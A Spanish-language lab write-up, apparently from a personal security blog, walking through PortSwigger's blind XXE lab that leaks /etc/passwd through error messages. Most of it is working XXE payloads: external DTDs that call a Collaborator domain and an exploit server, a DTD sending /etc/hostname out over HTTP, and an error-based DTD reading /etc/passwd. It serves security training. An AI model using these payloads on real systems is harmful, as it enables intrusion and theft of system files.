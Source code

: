 ```yaml
---
title: XXE Injection Lab 6
date: 2024-11-27 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - XXE Injection
tags:
  - XXE Injection
  - Exploiting blind XXE to retrieve data via error messages
image:
  path: /assets/img/XXE-Injection-Lab-6/Portswigger.png
---
```


## Skills

- Exploiting blind XXE to retrieve data via error messages

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` tiene una `función` de `Check stock` que analiza entradas en `formato XML`, pero `no muestra` el `resultado`. Para resolver el laboratorio, hay que utilizar un `DTD externo` para `provocar` un `mensaje` de `error` que `muestre` el `contenido` del archivo `/etc/passwd`. El laboratorio incluye un enlace a un `servidor` de `exploits` en un dominio diferente donde podemos alojar un `DTD malicioso`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/XXE-Injection-Lab-6/image_1.png)

Si pulsamos en `View details` veremos la `descripción` del `artículo`

![](/assets/img/XXE-Injection-Lab-6/image_2.png)

Si pulsamos en `Check stock` y `capturamos` la `petición` con `Burpsuite` vemos que se está tramitando un `XML`

![](/assets/img/XXE-Injection-Lab-6/image_3.png)

`Enviamos` una `petición` con un `DTD (Document Type Definition)` y a `comprobar` si es `vulnerable` a `XXE` pero la `web` con `responde` con un `mensaje` de `Entities are not allowed for security reasons`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY xxe "Doe"> ]>
	<stockCheck>
		<productId>
			&xxe;
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Nos vamos a `Burpsuite Collaborator` y pulsamos en `Copy to clipboard`, este `dominio` obtenido lo vamos a usar para construir este `payload`, el `%` sirve para `llamar` a la `entidad` desde el `DTD` creado

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://lqfvrsm0rxqxty3gudtykjjoifo6cx0m.oastify.com"> %xxe; ]>
	<stockCheck>
		<productId>
			1
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Nos vamos a `Burpsuite Collaborator` y observamos que hemos `obtenido respuesta`, lo cual quiere decir que ya tenemos un `XXE out-of-band interaction`

![](/assets/img/XXE-Injection-Lab-6/image_4.png)

Al `enviar` la `petición` obtenemos una `respuesta` que `refleja` un `error`

![](/assets/img/XXE-Injection-Lab-6/image_5.png)

Lo que podemos hacer ahora que hemos confirmado que podemos `cargar` un `recurso` del `servidor externo` es pulsar en `Go to exploit server`, introducir este `payload` en la parte de `Body` y pulsar sobre `Store` para almacenarlo. Esto `&#x25` es `%` pero en `hexadecimal`, se debe poner así y no en el formato normal para que funcione correctamente

```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://lqfvrsm0rxqxty3gudtykjjoifo6cx0m?content=%file;'>">
%eval;
%exfil;
```

Lo siguiente que debemos hacer es irnos a donde pone `Craft response`, copiar la url `https://exploit-0aa200cb045beea1d8e97fad01f20055.exploit-server.net/exploit` y `enviar` la `petición`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://exploit-0ad700d403aa94da80ea66ed01e5007e.exploit-server.net/exploit"> %xxe; ]>
	<stockCheck>
		<productId>
			1
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Ahora nos vamos a `Burpsuite Collaborator`, pulsamos en `Resquest to Collaborator` y vemos el `/etc/hostname`

![](/assets/img/XXE-Injection-Lab-6/image_6.png)

Sin embargo, no nos pide el `/etc/hostname`, lo que nos pide es el `/etc/passwd` y mediante el método anterior no podemos obtenerlo debido a que tiene más de una línea. Podríamos usar este `payload` pero `no funciona` el `wrapper` de `php` que `encodea` en `base64`

```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://lqfvrsm0rxqxty3gudtykjjoifo6cx0m.oastify.com?content=%file;'>">
%eval;
%exfil;
```

Debido a que cada vez que enviamos una petición `obtenemos` un `mensaje` de `error` podemos `exfiltrar data` mediante este `mensaje` de `error`. Lo primero es `craftearnos` un `entity` que `cargue` el `/etc/passwd` y luego otro `entity` que `cargue` un `archivo inexistente` provocando así un `error`

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///noExiste/%file;'>">
%eval;
%exfil;
```

`Enviamos` nuestra `petición` a nuestro `servidor` donde se encuentra el `exploit`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://exploit-0ad700d403aa94da80ea66ed01e5007e.exploit-server.net/exploit"> %xxe; ]>
	<stockCheck>
		<productId>
			1
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

El `servidor` nos `muestra` en el `error` el `/etc/passwd`

![](/assets/img/XXE-Injection-Lab-6/image_7.png)
